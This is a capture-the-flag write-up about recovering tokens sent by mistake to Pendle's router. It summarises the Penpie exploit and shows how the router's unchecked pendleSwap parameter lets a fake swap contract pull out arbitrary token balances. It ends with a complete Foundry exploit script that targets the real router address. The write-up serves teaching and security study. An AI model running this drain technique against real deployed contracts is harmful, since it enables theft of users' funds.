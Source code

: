 # Oh Fuck (Pendle)

Author: JesJupyter ([X/Twitter](https://x.com/jesjupyter))

## Background

### Introduction
Tony's heart sank as he realized his million-dollar typo had accidentally sent a fortune to Pendle's immutable router contract. Help Tony recover his money.


### Pendle Incident

Reference: https://threesigma.xyz/blog/penpie-exploit

Pendle is a decentralized, permissionless protocol designed for yield trading, enabling users to implement a variety of yield management strategies.

On September 3, 2024, at 6:23 PM UTC, a security vulnerability in the Penpie platform was exploited, resulting in the loss of over $27 million across the Arbitrum and Ethereum networks. The attacker created a fake Pendle market to manipulate rewards, inflating the staking balance and claiming unauthorized funds.

The incident was caused by two major factors:

- Lack of reentrancy protection in `PendleStaking::batchHarvestMarketRewards()`
- Penpie’s acceptance of all Pendle Markets as valid pools, despite Pendle Markets, PT, and YT tokens being permissionlessly created.


## Analysis

### How Can We Retrieve The Stuck Funds?

When we take a look at the `Challenge` contract, we can see that the token is directly transferred to `0x00000000005BBB0EF59571E58418F9a4357b68A0`.

When we take a look at the code of `0x00000000005BBB0EF59571E58418F9a4357b68A0` via [etherscan](https://vscode.blockscan.com/ethereum/0x00000000005bbb0ef59571e58418f9a4357b68a0), we can see that it is a Pendle Router contract.

**It's easy to think that the main idea may be related to the exploit in the Penpie article which could be like accepting all Pendle Markets/Swaps as valid pools.**

Take a look at the `swapTokenToToken` function.

```solidity
    function swapTokenToToken(
        address receiver,
        uint256 minTokenOut,
        TokenInput calldata inp
    ) external payable returns (uint256 netTokenOut) {
        _swapTokenInput(inp);

        netTokenOut = _selfBalance(inp.tokenMintSy);
        if (netTokenOut < minTokenOut) {
            revert Errors.RouterInsufficientTokenOut(netTokenOut, minTokenOut);
        }

        _transferOut(inp.tokenMintSy, receiver, netTokenOut);
    }
```

In the `_selfBalance`, the `balanceOf()` function is called for the given token.

```solidity
    function _selfBalance(address token) internal view returns (uint256) {
        return (token == NATIVE) ? address(this).balance : IERC20(token).balanceOf(address(this));
    }
```

So, if we could make `inp.tokenMintSy` to be the token that the challenge contract has, we might be able to retrieve the stuck funds.

Take a deep look at the `_swapTokenInput` code.

```solidity
    function _swapTokenInput(TokenInput calldata inp) internal {
        if (inp.tokenIn == NATIVE) _transferIn(NATIVE, msg.sender, inp.netTokenIn);
        else _transferFrom(IERC20(inp.tokenIn), msg.sender, inp.pendleSwap, inp.netTokenIn);

        IPSwapAggregator(inp.pendleSwap).swap{value: inp.tokenIn == NATIVE ? inp.netTokenIn : 0}(
            inp.tokenIn,
            inp.netTokenIn,
            inp.swapData
        );
    }
```

So, apprently, there is no check on the `inp.pendleSwap` address, which is the address that Pendle Router is calling. So we can use our own contract as the `pendleSwap` address. It's easy to use `inp.tokenIn = NATIVE` since we already has some ETH in the current account. This is like the root cause of the Pendle incident sine all `inp.pendleSwap` are considered as valid.

So attack path could be:
1. Create a fake Pendle Swap contract.
2. Call `swapTokenToToken` with `inp.pendleSwap` set to our fake Pendle Swap contract and `inp.tokenMintSy` set to the token that we want to retrieve.
3. Our fake Pendle Swap contract will pass the `swap` call and the contract will transfer the token that we want to retrieve via `_transferOut`.

### CTF Script

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import {Challenge} from "../src/Challenge.sol";



struct SwapData {
    SwapType swapType;
    address extRouter;
    bytes extCalldata;
    bool needScale;
}

enum SwapType {
    NONE,
    KYBERSWAP,
    ONE_INCH,
    // ETH_WETH not used in Aggregator
    ETH_WETH
}

struct TokenInput {
    // Token/Sy data
    address tokenIn;
    uint256 netTokenIn;
    address tokenMintSy;
    // aggregator data
    address pendleSwap;
    SwapData swapData;
}

interface IRouter {
    function swapTokenToToken(
        address receiver,
        uint256 minTokenOut,
        TokenInput calldata inp
    ) external payable returns (uint256 netTokenOut);
}

contract PendleSwap {
    function swap(address tokenIn, uint256 amountIn, SwapData calldata swapData) external payable {

    }
}

contract TestScript is Script {


    function run() public {
        Challenge challenge = Challenge(CHALLENGE_ADDRESS);
        uint256 deployerPrivateKey = PRIVATE_KEY;
        address user = vm.addr(deployerPrivateKey);
        vm.startBroadcast(deployerPrivateKey);
        
            IRouter router = IRouter(0x00000000005BBB0EF59571E58418F9a4357b68A0);
            PendleSwap pendleSwap = new PendleSwap();
            TokenInput memory input = TokenInput(
                address(0),
                1 ether,
                address(challenge.token()),
                address(pendleSwap),
                SwapData(SwapType.NONE, address(0), new bytes(0), false)
            );
            router.swapTokenToToken{value: 1 ether}(challenge.PLAYER(), 1 ether, input);
            require(challenge.isSolved(), "Not solved");
        
        vm.stopBroadcast();
    }
}

```